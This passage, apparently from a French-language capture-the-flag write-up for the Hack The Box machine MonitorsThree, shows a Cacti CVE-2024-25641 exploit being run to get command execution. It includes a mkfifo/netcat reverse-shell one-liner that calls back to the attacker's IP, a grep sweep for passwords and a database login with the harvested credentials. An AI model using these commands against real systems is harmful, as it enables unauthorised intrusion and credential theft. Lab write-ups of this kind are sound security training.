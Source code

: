 ```bash
➜  CVE-2024-25641-CACTI-RCE-1.2.26 git:(master) ✗ python3 CVE-2024-25641.py http://cacti.monitorsthree.htb/cacti/ --user admin --p  
ass greencacti2001 -x 'whoami'

www-data
```

Comme l'exploit marche je me mets en écoute pour faire un reverse shell.

```bash
pwncat-cs -lp 9001
```

```bash
➜  CVE-2024-25641-CACTI-RCE-1.2.26 git:(master) ✗ python3 CVE-2024-25641.py http://cacti.monitorsthree.htb/cacti/ --user admin --p  
ass greencacti2001 -x 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 9001 >/tmp/f'
```

et Hop j'ai une connexion sur mon reverse shell :D

```bash
(remote) www-data@monitorsthree:/var/www/html/cacti/resource$
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Privesc

Pour le moment je décide de chercher dans les fichiers des mdp:

```bash
www-data@monitorsthree:/var/www/html/cacti$ grep -r "password" /var/www/html/ > /tmp/enumfile
www-data@monitorsthree:/var/www/html/cacti$ nano /tmp/enumfile

/var/www/html/cacti/include/config.php:$database_password = 'cactiuser';  
/var/www/html/cacti/include/vendor/phpmailer/README.md: $mail->Password = 'secret';
/var/www/html/cacti/.github/workflows/syntax.yml:        echo -e "[client]\nuser = root\npassword = cactiroot\nhost = 127.0.0.1\n>
```

```bash
www-data@monitorsthree:/var/www/html/cacti$ cat /var/www/html/cacti/include/config.php

$database_type     = 'mysql';  
$database_default  = 'cacti';  
$database_hostname = 'localhost';  
$database_username = 'cactiuser';  
$database_password = 'cactiuser';  
$database_port     = '3306';
```

Je me connecte à la SGBD au cas ou je pourrais trouver autre chose que j'ai pas déjà.

```bash
www-data@monitorsthree:/$ mysql -h localhost -P 3306 -u cactiuser -p  
Enter password:    
Welcome to the MariaDB monitor.  Commands end with ; or \g.  
Your MariaDB connection id is 149458  
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

MariaDB [(none)]> SHOW DATABASES;  
+--------------------+  
| Database           |  
+--------------------+  
| cacti              |  
| information_schema |  
| mysql              |  
+--------------------+

```